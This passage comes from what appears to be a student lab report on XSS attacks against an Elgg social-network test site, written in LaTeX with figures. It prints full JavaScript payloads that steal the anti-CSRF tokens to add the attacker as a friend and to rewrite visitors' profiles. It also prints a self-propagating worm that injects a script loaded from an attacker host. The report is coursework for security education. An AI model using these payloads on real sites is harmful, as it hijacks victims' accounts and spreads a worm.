    
\includegraphics[width=0.45\textwidth]{figures/task8/task8.1.png}
    }
    \hfill
  \subfloat[When Boby click the Charlie's Profile, It exploited the cookie to the attack machine.\label{fig:task8.2}]{
    
\includegraphics[width=0.5\textwidth]{figures/task8/task8.2.png}
    }
    \hfill
    \caption{Observations}\label{fig:task8}
\end{figure}


\subsection{Becoming the Victim’s Friend}\label{sec:36}

First, we observe the add friend request, as shown in Figure \ref{fig:task9.1}, the request is a GET request, and the parameters is \verb|friend=47| as well as the token and ts. 
\begin{enumerate}
    \item The friend parameter represents the friend number of the added friend.
    \item \_elgg\_ts is a timestamp used to verify the timeliness of the token.
    \item \_elgg\_token is the actual token value, used to verify the user's identity and permissions.
\end{enumerate}
So we fill in the sendURL to the script, as shown in Listing \ref{lst:task9} and modify Samy's profile shown in \ref{fig:task9.2}. 
\begin{figure}[h]
    \centering
  \subfloat[Observe the add friend url\label{fig:task9.1}]{
    
\includegraphics[width=0.4\textwidth]{figures/task9/task9.1.png}
    }
    \hfill
  \subfloat[Fill in the sendURL to the script\label{fig:task9.2}]{
    
\includegraphics[width=0.55\textwidth]{figures/task9/task9.6.png}
    }
    \hfill
    \caption{Observations}\label{fig:task9-1}
\end{figure}
\begin{lstlisting}[caption={POST HTML},label={lst:task9},language=HTML,breaklines=true]
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl='http://www.xsslabelgg.com/action/friends/add?friend=47'+ts+token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send();
}
</script>
\end{lstlisting}

After that, when someone views the Samy's profile, it will self-execute the add friend script, as shown in Figure \ref{fig:task9.3}, and the result is shown in Figure \ref{fig:task9.4}. The result indicates that the script successfully added Samy as a friend to the victim's account, demonstrating the potential for XSS attacks to perform unauthorized actions on behalf of the victim.
\begin{figure}[h]
    \centering
  \subfloat[Self Execute the Add Friend\label{fig:task9.3}]{
    
\includegraphics[width=0.45\textwidth]{figures/task9/task9.4.png}
    }
    \hfill
  \subfloat[Add Friend in Activities\label{fig:task9.4}]{
    
\includegraphics[width=0.45\textwidth]{figures/task9/task9.5.png}
    }
    \hfill
    \caption{Observations}\label{fig:task9-2}
\end{figure}


\begin{figure}[h]
    \centering
  \subfloat[If without the ts and token\label{fig:task9.5}]{
    
\includegraphics[width=0.4\textwidth]{figures/task9/task9.2.png}
    }
    \hfill
  \subfloat[Fail to Add Friend\label{fig:task9.6}]{
    
\includegraphics[width=0.45\textwidth]{figures/task9/task9.3.png}
    }
    \hfill
    \caption{Observations}\label{fig:task9-3}
\end{figure}

\textbf{Answer for Question 1:} 

As mention before, the parameters in the add friend request are:
\begin{enumerate}
    \item \_elgg\_ts is a timestamp used to verify the timeliness of the token.
    \item \_elgg\_token is the actual token value, used to verify the user's identity and permissions.
\end{enumerate}
if without these two parameters, the request will fail, as shown in Figure \ref{fig:task9.5} and Figure \ref{fig:task9.6}. Because the server will verify the timeliness of the token and the user's identity and permissions.
\textbf{Answer for Question 2:} 

It should also work, We can use the POST request to modify the profile directly. As shown in Figure \ref{fig:task9.7}. But the result is depend on the server's configuration, if the server doesn't check the text, then the attack will work. If the server does, then the attack will fail.

\begin{figure}[h]
    \centering
       
\includegraphics[width=0.63\textwidth]{figures/task9/task9.7.png}
    \caption{Post to edit the profile}\label{fig:task9.7}
\end{figure}

\subsection{Modifying the Victim’s Profile}

First, we modify the code as lstlisting \ref{lst:task11} in samy's profile as shown in \ref{fig:task11.1}, for modifying the one who visit the Samy's profile. As shown in Figure \ref{fig:task11.2}, when Boby visiting Samy's profile will result in his profile's modifying to the given String \verb|Hello World|. The result indicates that the script successfully modified Boby's Profile.
\begin{figure}[h]
    \centering
  \subfloat[edit Samy's profile\label{fig:task11.1}]{
    
\includegraphics[width=0.5\textwidth]{figures/task11/task11.1.png}
    }
    \hfill
  \subfloat[Result of visiting Samy's profile\label{fig:task11.2}]{
    
\includegraphics[width=0.7\textwidth]{figures/task11/task11.2.png}
    }
    \hfill
    \caption{Observations}\label{fig:task11-1}
\end{figure}

\begin{lstlisting}[caption={POST edit Code},label={lst:task11},language=HTML,breaklines=true]
<script type="text/javascript">
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var name="&name"+userName;
var accesslevel="&accesslevel[description]="+"2";
var propagatescript="&description="+'Hello World';
var content=ts+token+name+guid+propagatescript+accesslevel;
var samyGuid=47;
var sendurl='http://www.xsslabelgg.com/action/profile/edit';
 if(elgg.session.user.guid!=samyGuid)
 {
 var Ajax=null;
 Ajax=new XMLHttpRequest();
 Ajax.open("POST",sendurl,true);
 Ajax.setRequestHeader("Host","www.xsslabelgg.com");
 Ajax.setRequestHeader("Content-Type",
 "application/x-www-form-urlencoded");
 Ajax.send(content);
 }
}
</script>
\end{lstlisting}

\textbf{Answer for Question 3:} 

The Line is ensure that Samy's profile will not be edited by Samy himself, as shown in Figure \ref{fig:task11.3}. If without this Line, Aftre clicking Save Buttion, Samy's profile is edited by XSS itself, it will behaves just cover the XSS script, which will not propagate anymore. 
\begin{figure}[h]
    \centering
       
\includegraphics[width=0.6\textwidth]{figures/task11/task11.3.png}
    \caption{XSS edit Samy's profile himself}\label{fig:task11.3}
\end{figure}

\subsection{Writing a Self-Propagating XSS Worm}
\subsubsection{Link Approach}
First, we observe the profile editing POST Behavior, as shown in Figure \ref{fig:task10.1}, the request is a POST request, and the form data is Listing \ref{lst:task10} and we paste the Listing \ref{lst:task9} to the csrf attack website and store it to \verb|src.js|.

\begin{figure}[h]
    \centering
  \subfloat[edit Samy's profile\label{fig:task10.1}]{
    
\includegraphics[width=0.45\textwidth]{figures/task10/task10.1.png}
    }
    \hfill
  \subfloat[addfriend script in attack website\label{fig:task10.2}]{
    
\includegraphics[width=0.45\textwidth]{figures/task10/task10.2.png}
    }
    \hfill
    \caption{Prepare for Modifying}\label{fig:task10-1}
\end{figure}

\begin{lstlisting}[caption={POST edit Code Link Approach},label={lst:task10},language=HTML,breaklines=true]
<script type="text/javascript">
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var name="&name"+userName;
var accesslevel="&accesslevel[description]="+"2";
var propagatescript="&description="+'<script src="http://www.csrflabattacker.com/src.js">';
var content=ts+token+name+guid+propagatescript+accesslevel;
var samyGuid=47;
var sendurl='http://www.xsslabelgg.com/action/profile/edit';
 if(elgg.session.user.guid!=samyGuid)
 {
 var Ajax=null;
 Ajax=new XMLHttpRequest();
 Ajax.open("POST",sendurl,true);
 Ajax.setRequestHeader("Host","www.xsslabelgg.com");
 Ajax.setRequestHeader("Content-Type",
 "application/x-www-form-urlencoded");
 Ajax.send(content);
 }
}
</script>
\end{lstlisting}


\begin{figure}[h]
    \centering
  \subfloat[XSS edit Boby's profile\label{fig:task10.3}]{
    
\includegraphics[width=0.6\textwidth]{figures/task10/task10.3.png}
    }
    \hfill
  \subfloat[Boby's profile after XSS editing\label{fig:task10.5}]{
    
\includegraphics[width=0.6\textwidth]{figures/task10/task10.5.png}
    }
    \hfill
    \caption{Result}\label{fig:task10-2}
\end{figure}

When Boby visiting Samy's profile, Boby's profile will be edited, as shown as Figure \ref{fig:task10.3}, and the result is shown in Figure \ref{fig:task10.5}. The result indicates that the script successfully modified Boby's Profile.

After that, when Alice visit Boby's profile, the add firend script in the attack website will be executed, as shown in Figure \ref{fig:task10.6}, and the result is shown in Figure \ref{fig:task10.7}. The result indicates that the script successfully added Samy as a friend to Alice's account, demonstrating the potential for XSS attacks to perform unauthorized actions on behalf of the victim.
\begin{figure}[h]
    \centering
  \subfloat[edit Samy's profile\label{fig:task10.6}]{
    
\includegraphics[width=0.4\textwidth]{figures/task10/task10.6.png}
    }
    \hfill
  \subfloat[addfriend script in attack website\label{fig:task10.7}]{
    
\includegraphics[width=0.4\textwidth]{figures/task10/task10.7.png}
    }
    \hfill
    \caption{Prepare for Modifying}\label{fig:task10-3}
\end{figure}

\subsubsection{DOM Approach}

As for DOM Approch, the Code show be modify as Listing \ref{lst:task12}. When Boby visit Samy's profile again, the XSS will edit Boby's profile as shown in Figure \ref{fig:task10.9} and the result is shown in Figure \ref{fig:task10.10}. 


\begin{figure}[h]
    \centering
  \subfloat[XSS with DOM Approach\label{fig:task10.9}]{
